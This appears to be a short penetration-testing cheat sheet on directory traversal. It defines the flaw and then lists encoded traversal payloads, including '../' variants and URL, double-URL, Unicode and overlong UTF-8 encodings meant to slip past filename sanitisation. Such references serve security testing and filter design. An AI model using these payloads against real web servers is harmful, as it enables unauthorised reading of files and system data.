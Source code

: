 # Traversal Directory
A directory traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Exploit
Basic
```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

16 bit Unicode encoding
```
. = %u002e
/ = %u2215
\ = %u2216
```

Double URL encoding
```
. = %252e
/ = %252f
\ = %255c     
```

UTF-8 Unicode encoding
```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```



## Thanks to
 * https://twitter.com/huykha10/status/962419695470174208
